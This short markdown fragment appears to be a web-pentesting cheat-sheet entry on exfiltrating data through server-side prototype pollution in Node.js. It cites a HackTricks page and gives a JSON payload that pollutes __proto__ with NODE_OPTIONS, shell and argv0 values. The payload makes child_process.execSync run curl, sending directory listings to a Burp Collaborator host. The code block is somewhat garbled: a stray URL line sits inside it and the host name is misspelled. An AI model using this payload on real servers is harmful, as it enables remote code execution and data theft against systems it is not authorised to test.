 


### Exfiltrating sensitive data via server-side prototype pollution\
Payload
```js
URL's : "https://book.hacktricks.wiki/en/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce.html?highlight=prototype%20rce#prototype-pollution-to-rce:"

'{
	"__proto__": 
	{
		"NODE_OPTIONS": "--require /proc/self/cmdline", 
		"shell": "node",
		"argv0": "require('child_process').execSync('curl `ls ` burpsuite-collbabrator') //"
	}
}'
```